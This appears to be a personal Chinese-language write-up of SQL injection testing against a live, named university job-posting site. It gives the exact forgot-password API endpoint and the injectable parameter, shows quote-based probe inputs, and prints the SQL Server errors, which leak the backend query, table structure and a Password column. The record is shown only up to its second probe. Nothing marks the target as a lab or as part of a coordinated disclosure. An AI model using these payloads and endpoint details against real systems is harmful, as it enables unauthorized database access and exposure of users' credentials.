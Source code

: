 ```yaml
---
title: SQL Injection spirit.tku
description: SQL Injection spirit.tku
last_update:
  date: "2025-08-29T08:00:00+08:00"
---
```


## 前言

- 目標網址: http://spirit.tku.edu.tw:8088/job/index.php?qs=zd1czZLoqxC0jMy9qNDMuejh&valid=1
- 目標功能: 忘記密碼
- 實際戳的 API: http://spirit.tku.edu.tw:8088/job/login/main_company_forget_ok.php?c=1
- 注入點為 `c=1`

## 測試過程

1. `'`

```
string(113) "SQLSTATE[42000]: [Microsoft][SQL Server Native Client 10.0][SQL Server]遺漏字元字串 '';' 後面的引號。"
string(901) "
select Id, Name, ShortName, Code, Address
, Product, Industry, TypeId, Welfare, Web
, Logo, ContactPerson, ContactMobile, ContactPhone, ContactFax
, ContactMail, ContactMailShown, FileName, FilePath, Hit
, CreateTime, ModifyTime, Enabled, Password, LoginTime
, LoginCount, Source, Certificate

, (select Name from Type where Id=A.TypeId) as TypeName
, (select count(*) from Job where CompanyId=A.Id) as JobAllCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1) as JobEnabledCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1 and (IsClosed=0 and (ExpiredDate is null or CURRENT_TIMESTAMP < ExpiredDate+1))) as JobValidCount
, (select count(*) from BookmarkCompany where CompanyId=A.Id) as BookmarkCount
, (select count(*) from Send where JobId in (select Id from Job where CompanyId=A.Id and Enabled=1)) as SendCount

from Company A
 where Code=''';"
....
```

2. `123'`

```
string(116) "SQLSTATE[42000]: [Microsoft][SQL Server Native Client 10.0][SQL Server]遺漏字元字串 '123';' 後面的引號。"
string(904) "
select Id, Name, ShortName, Code, Address
, Product, Industry, TypeId, Welfare, Web
, Logo, ContactPerson, ContactMobile, ContactPhone, ContactFax
, ContactMail, ContactMailShown, FileName, FilePath, Hit
, CreateTime, ModifyTime, Enabled, Password, LoginTime
, LoginCount, Source, Certificate

, (select Name from Type where Id=A.TypeId) as TypeName
, (select count(*) from Job where CompanyId=A.Id) as JobAllCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1) as JobEnabledCount
, (select count(*) from Job where CompanyId=A.Id and Enabled=1 and (IsClosed=0 and (ExpiredDate is null or CURRENT_TIMESTAMP < ExpiredDate+1))) as JobValidCount
, (select count(*) from BookmarkCompany where CompanyId=A.Id) as BookmarkCount
```